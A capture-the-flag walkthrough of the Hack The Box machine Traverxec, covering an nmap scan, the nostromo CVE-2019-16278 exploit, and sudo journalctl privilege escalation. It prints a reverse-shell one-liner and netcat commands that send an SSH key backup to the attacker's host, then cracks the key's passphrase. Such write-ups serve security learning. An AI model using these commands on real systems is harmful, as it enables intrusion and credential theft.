

<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS: </strong>
      
      <span style="margin-left: 5px;">Linux</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Easy</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>jkr</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>November 16, 2019</span>
    </div>
  </div>

</div>


## Recon

### Nmap


``` bash
$ nmap -sC -sV 10.10.10.165 -o nmap_scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-17 16:08 WET
Nmap scan report for 10.10.10.165
Host is up (0.058s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.04 seconds
```

| Port |       Service       |
|:----:|:-------------------:|
|  22  |         SSH         |
|  80  | HTTP Nostromo 1.9.6 |


## Foothold

### CVE-2019-16278

After googling for nostromo 1.9.6 exploit, we can find [CVE-2019-16278](https://www.exploit-db.com/exploits/47837)


We just need to setup a listener and run a revshell

``` bash
$ nc -lvnp 1234
```
``` bash
$ python CVE-2019-16278.py 10.10.10.165 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.9 1234 >/tmp/f"
```



## Lateral Movement

/etc/passwd


With this we know there is a user called David

### SSH backup

Right now we cannot access David's home folder, however by looking at the nostromo's config files, there is a public_www folder in the user's home folder that we have access to

/var/nostromo/conf/nhttpd.conf


And we can see that there is a backup for ssh id files


We can use netcat to transfer the file to our machine

On local machine:
``` bash
$ nc -lvp 1337 > backup-ssh.tgz
```

On remote server:
``` bash
$ nc 10.10.14.9 1337 < backup-ssh-identity-files.tgz
```

We now just need to extract it's contents and we confirm that we have David's ssh private key (id_rsa)

``` bash
$ tar -xvf backup-ssh.tgz
```


If we try logging in now, we will see that this key has a password

``` bash
$ chmod 400 id_rsa
$ ssh -i id_rsa david@10.10.10.165
```


To decrypt the password, we can use ssh2john and then john to decrypt the password

``` bash
$ ss2john id_rsa > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


Now we know the id_rsa password, we can just ssh into the machine as David and get the user flag


## PrivEsc

### sudo journalctl

David has a bin directory in it's home folder, and a bash script called "server-stats.sh" inside.

If we look into it's contents we can see that it runs journalctl as root, and since David can run this file, we can use this to run a command as root


If we run this command, it will just print the output and nothing else happens, however, the -n5 flag means it will print only print 5 lines in the output.
We can shrink our terminal to where we can only see less than 5 lines, and when we run the command, we will see that the binary "less" runs.
And since this happens in the command that was ran as root (journalctl) we can run any command as root.

``` bash
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
```


Now we just get the root flag
